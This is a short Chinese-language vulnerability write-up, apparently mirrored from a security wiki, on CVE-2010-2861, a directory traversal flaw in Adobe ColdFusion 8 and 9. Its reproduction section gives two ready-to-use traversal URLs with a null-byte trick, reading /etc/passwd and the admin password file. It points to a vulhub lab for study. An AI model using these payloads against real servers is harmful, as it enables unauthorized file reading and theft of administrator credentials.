 # （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

> 原文：[http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2010-2861.html](http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2010-2861.html)

## 一、漏洞简介

Adobe ColdFusion 8、9 版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 二、漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 三、复现过程

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![image](img/b75e7222b7b69a6f39b964405aef2771.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![image](img/6c56a3e867e30a5aa4d9e0fb485a01a5.png)

## 参考链接

> [https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/](https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/)

